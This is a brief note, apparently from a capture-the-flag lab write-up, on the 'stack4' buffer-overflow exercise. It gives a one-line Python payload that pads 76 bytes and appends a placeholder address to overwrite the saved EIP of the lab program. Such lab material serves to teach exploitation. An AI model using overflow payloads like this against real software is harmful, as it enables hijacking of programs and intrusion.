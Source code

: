 #Stack 4

Similar to stack3 except this time we are overwriting saved eip 

```
python -c 'print "A" * 76 + "address of win"' | ./stack4
```
